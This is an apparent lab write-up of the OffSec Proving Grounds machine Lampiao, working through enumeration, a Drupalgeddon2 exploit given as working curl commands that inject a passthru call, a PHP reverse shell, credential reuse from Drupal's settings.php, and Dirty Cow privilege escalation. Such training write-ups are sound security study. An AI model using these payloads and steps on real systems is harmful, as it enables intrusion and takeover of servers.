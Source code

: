 ```yaml
---
title: OffSec PG - Lampiao
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.56.48`

### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.56.48`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                                      |
| -------- | ----------- | --------------------------------------------------------------- |
| 22       | SSH         | OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0) |
| 80       | HTTP?       | \-                                                              |
| 1898     | HTTP        | Apache httpd 2.4.7 ((Ubuntu)) & Drupal 7                        |

### Web Scan

Robots.txt check by nmap listed a ton of directories and files for all user agents. Therefore, listed the entire file using curl, which resulted in the following interesting entries &rarr;

- admin/
- user/register/
- user/password/
- user/login/
- ?q=admin
- ?q=comment/reply/
- ?q=user/register/
- ?q=user/password/

GoBuster scan &rarr; `gobuster dir -u http://192.168.56.48 -w /home/tanq/installations/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php`

Directories/files listed were common with robots.txt finding and the important ones were &rarr;

- install.php
- update.php
- cron.php
- xmlrpc.php
- index.php
- misc/
- scripts/
- includes/
- sites/
- modules/
- themes/

---

## Exploitation

Nothing in the directory and file brute force was particularly interesting. The /CHANGELOG.txt file can be looked at to identify the exact version of software running on the server. This revealed the latest version to be Drupal 7.54.

A particular exploit from Google-fu is the drupalgeddon2. For the version 7.5X, the PoC for the `?q=user/password` would work well. The exploit is basically a lack of input validation in Drupal 7 Form API. This attack targets AJAX requests composed of Drupal Form API’s renderable arrays, which are used to render a requested page through Drupal’s theming system.

Renderable arrays are implemented by an associative array and pass key-value pairs as function arguments or form data in order to render markup and UI elements in a meaningful way. Markup element properties have keys prefixed with the ‘#’ character. These parameters were not sanitized. The exploit code had to target the rendering phase of either a page load or AJAX request with malicious code passed to one of the Form API executable functions. The 4 possibilities were &rarr;

1. [#post_render]
2. [#pre_render]
3. [#access_callback]
4. [#lazy_builder]

To exploit, the following set of 2 commands can be executed to get the result of a bash command on the server &rarr;

```
## 1st command - payload is "which nc" to check if nc is there on the system.
url_pre="http://192.168.56.48:1898/?q=user/password&name"
url_post="$url_pre\[%23post_render\]\[\]=passthru&name\[%23type\]=markup&name\[%23markup\]="
final_url="$url_post=which+nc"
form_data=$( curl -k -s $(echo final_url) --data "form_id=user_pass&_triggering_element_name=name")
form_build=$(echo form_data | grep form_build_id)
form_build_id=$(echo form_build | sed -E 's/.*name="form_build_id" value="(.*)".*/\1/' )

## 2nd command, which returns the result of the above payload.
curl -k -i "http://192.168.56.48:1898/?q=file/ajax/name/%23value/${form_build_id}" \
    --data "form_build_id=${form_build_id}"
```

This gave an indication that nc was present on the system, therefore a reverse shell could be generated for it.

However, an nc shell did not work. It is known that there is php on the system. Therefore, after checking the presence of wget, the php reverse shell from pentest monkey is sent to the server. With a local netcat listener and navigating to the reverse shell path, a shell with the user `www-data` is obtained.

---

## Privilege Escalation

### User

Looking at `/etc/passwd`, a number of users are determined. SetUID binaries do not have any interesting information. The `/etc/passwd` contains the hashed password for the `root` user. This was sent to john for a cracking attempt, which did not reveal anything.

Listing the `/home` directory shows the presence of a user `tiago`. Google-fu for default drupal config files reveals the location as `settings.php` file inside the `sites/default/` directory. This reveals the mysql database connection credentials as `drupaluser:Virgulino`. Trying the password for the user `tiago` successfully logs in. This gives the user flag.

### Root

The `tiago` user is not allowed to run sudo either. Therfore, looking at other information and running the linux enumeration script. Looking at the kernel version, which is 4.4.0, Google-fu points to the presence of the Dirty Cow exploit.

Therefore, looking at PoCs from [Dirty Cow PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs), choosing the `cowroot.c` payload to get the root shell. Therefore, compiling for 32 bit version to match target. Compiled it with gcc and sent the binary to the target machine via wget.

Executing this gives the root shell and thus the root flag.

---
